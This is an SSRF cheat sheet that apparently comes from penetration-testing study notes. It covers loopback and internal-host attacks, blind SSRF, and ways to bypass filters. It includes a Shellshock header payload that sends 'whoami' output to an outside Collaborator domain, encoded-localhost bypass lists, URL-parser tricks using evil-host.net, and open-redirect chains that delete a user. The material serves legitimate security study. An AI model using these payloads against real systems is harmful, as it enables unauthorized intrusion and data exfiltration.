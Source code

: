 # 🟩 Server-Side Request Forgery (SSRF)

Induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

## <mark style="color:red;">Exploiting</mark>

### <mark style="color:orange;">SSRF against the server itself</mark>

Attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface (EX: http://localhost/admin)

### <mark style="color:orange;">SSRF against other back-end systems</mark>

* Attacker can exploit the SSRF vulnerability to access the other interface by submitting a internal HTTP request (EX: http://192.168.1.105/admin)

### <mark style="color:orange;">Blind SSRF vulnerabilities</mark>

Response from the back-end request is not returned in the application's front-end response

**Find vulnerability**

Observe a DNS look-up for the supplied **Burp Collaborator domain**

**Example (Blind SSRF with Shellshock exploitation)**

```http
GET /path TTP/1.1
Host: test.net
...
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).aaabbbcccdddeeefff.burpcollaborator.net
...
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Connection: close
```

## <mark style="color:red;">Bypass</mark>

### <mark style="color:orange;">Bypass blacklist-based</mark>

* Change "127.0.0.1" to

```
http://2130706433
http://017700000001
http://127.1
http://127.0.1
http://0.0.0.0
http://0
http://0x7f000001
http://2130706433
http://017700000001
http://[::]:80
```

* Registering your own domain name that resolves to 127.0.0.1. You can use "spoofed.burpcollaborator.net" for this purpose
* Obfuscating blocked strings using URL encoding or case variation. Example

```
value=http://127.1/%25%36%31dmin/delete?username=carlos
```

### <mark style="color:orange;">Bypass whitelist-based</mark>

* Using "@" char `https://expected-host@evil-host.net`
* Using "#" char `https://evil-host#expected-host.net`
* Create a invalid domain `https://expected-host.evil-host.net`
* Use URL-encode characters to confuse the URL-parsing code `http://localhost:80%2523@evil-host.net/admin`

### <mark style="color:orange;">Bypassing SSRF filters via open redirection</mark>

**Exapmle-1**&#x20;

/product/nextProduct?currentProductId=6&<mark style="color:green;">path</mark>=<mark style="color:yellow;">http://192.168.0.68/admin</mark>

**Exapmle-2**

If "/product/stock" vulnerable to SSRF and "/nextProduct" vulnerable to OpenRedirect, Then

```http
// HTTP request

POST /product/stock vulnerable/1.1
Host: test.net
......
Connection: close

api=/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
